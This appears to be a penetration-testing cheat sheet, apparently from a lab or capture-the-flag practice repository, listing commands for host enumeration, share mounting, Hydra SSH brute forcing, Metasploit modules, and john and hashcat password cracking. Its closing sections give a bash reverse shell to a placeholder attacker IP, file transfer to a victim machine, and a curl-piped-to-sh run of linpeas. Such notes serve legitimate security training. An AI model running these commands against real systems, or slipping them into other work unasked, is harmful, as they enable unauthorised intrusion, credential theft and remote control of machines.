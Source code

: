 # Enumeration


## Show OS version

```bash
cat /etc/*release

uname -a 

cat /etc/issue 
```

## Nmap

```bash
# Search for scripts
ls -l /usr/share/nmap/scripts/*ftp*

grep "ftp" /usr/share/nmap/scripts/script.db

# Ping sweep
nmap -sn 192.168.0.1-254 #-sn: no port scan

nmap -sn 192.168.0.0/16

```

## Shares

```bash
#  List the visibles NFS shares
usr/sbin/showmount -e [IP]

smbclient -L [IP]

# Mount a folder
mkdir /tmp/mount
sudo mount -t nfs [IP]:/home /tmp/mount -nolock

```

## Hydra

```bash
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.129.236 ssh

```

## Metasploit

- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_hashdump

- auxiliary/scanner/smtp/smtp_version
- auxiliary/scanner/smtp/smtp_enum

## Crach ssh key (with john)

```bash
locate ssh2john
python /usr/share/john/ssh2john.py idrsa.id_rsa > my.hash
john --wordlist=/usr/share/wordlists/rockyou.txt my.hash
```

## GPG decrypt

```bash
gpg --import mykey.key
gpg message.gpg
cat message
```

## Hash cracking

1) Find out what encryption is used 

```
$1$	md5crypt, used in Cisco stuff and older Linux/Unix systems
$2$, $2a$, $2b$, $2x$, $2y$	Bcrypt (Popular for web applications)
$6$	sha512crypt (Default for most Linux/Unix systems)
```

or use a site like 
- https://www.tunnelsup.com/hash-analyzer/
- https://hashes.com/en/decrypt/hash

2) Retrieve the encryption code in hashcat
```bash
hashcat -h | grep sha512crypt
```

3) Crack the hash
```bash
hashcat -m 21400 hash.txt /usr/share/wordlists/rockyou.txt
```


## RDP

```bash
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.135.207
```

```bash
remmina
```

## Share



Start a share

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On the victim machine

```bash
copy \\[ATTACKER_IP]\kali\somefile /path/somefile
```


### Send file to a machine
```bash
nc -w -3 [VICTIM_IP] [PORT] < LinEnum.sh
```

### Connect from server to local machine
```bash
# in bash script
/bin/bash -i >& /dev/tcp/[ATTACKER_IP]/[PORT] 0>&1
```

### Run linepeas in one line

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```


